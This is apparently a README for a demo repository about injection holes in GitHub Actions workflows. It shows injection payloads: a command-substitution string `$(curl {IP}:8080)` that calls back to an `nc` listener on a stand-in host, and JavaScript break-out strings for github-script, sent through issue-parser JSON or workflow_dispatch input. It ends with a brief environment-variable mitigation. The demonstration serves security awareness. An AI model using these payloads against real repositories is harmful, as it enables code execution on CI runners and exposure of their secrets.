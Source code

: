 # actions-input-security
The repository demonstrates two potential vulnerabilities when using inputs in actions workflows.  

# Exploit 1: Using user input (via issue parser) in run commands
Launch a VM in the cloud. Open a publicly accessible port on the VM using `nc -vlnk 0.0.0.0 8080`. 
```
    ```json
    {
        "version": "$(curl {IP}:8080)"
    }
    ```
```
# Exploit 1a: Using user input in run commands
Launch a VM in the cloud. Open a publicly accessible port on the VM using `nc -vlnk 0.0.0.0 8080`.  
Use the following as input for workflow_dispatch: `$(curl {IP}:8080)`  

# Exploit 2: Using user input (via issue parser) in github-script action
```
    ```json
    {
        "version": "'};console.log('hophophop!!!');//"
    }
    ```
```

# Exploit 2a: Using user input in github-script action
Use the following as input for workflow_dispatch: `};console.log('hophophop!!!');//`  

# Mitigation
Use an environment variable for the user input.
